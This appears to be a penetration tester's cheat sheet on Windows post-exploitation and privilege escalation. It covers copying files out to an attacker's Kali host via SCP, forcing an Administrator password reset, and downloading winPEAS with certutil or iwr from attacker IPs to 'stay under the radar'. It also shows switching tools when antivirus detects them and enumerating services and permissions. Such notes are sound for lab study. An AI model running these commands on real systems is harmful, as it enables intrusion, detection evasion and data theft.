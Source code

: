 
#### Getting File from Windows Machine to Local - SCP

First, ensure the SSH service is running on your Kali machine:

```bash
sudo service ssh start
```

Then, from the Windows command line or PowerShell, transfer the file:

```powershell
scp C:\path\to\file.txt kali@<KALI_IP>:/path/to/save/
```

#### Decode Base64 in Powershell

```bash
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))
```

#### Change User's Password

```bash
Set-LocalUser -Name "Administrator" -Password (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```

#### Windows' Curl

Stay under the radar and use certutil.exe on Windows to download files from the internet, or use the classic:
```bash
certutil.exe -f -urlcache http://123.123.123.123/winPEASx64.exe winpeas.exe

iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```

## When WinPEAS Fails

Use winPEAS, and if the antivirus picks that up, then try other tools such as Seatbelt and Jaws.

#### Get the Running Services

When using a network logon such as WinRM or a bind shell, Get-CimInstance and Get-Service will result in a "permission denied" error when querying for services with a non-administrative user. Using an interactive logon such as RDP solves this problem.

```bash
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

#### Get Permissions of Running Services

The icacls utility outputs the corresponding principals and their permission mask.4 The most relevant permissions and their masks are listed below:
	Mask 	Permissions
	F 	Full access
	M 	Modify access
	RX 	Read and execute access
	R 	Read-only access
	W 	Write-only access


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname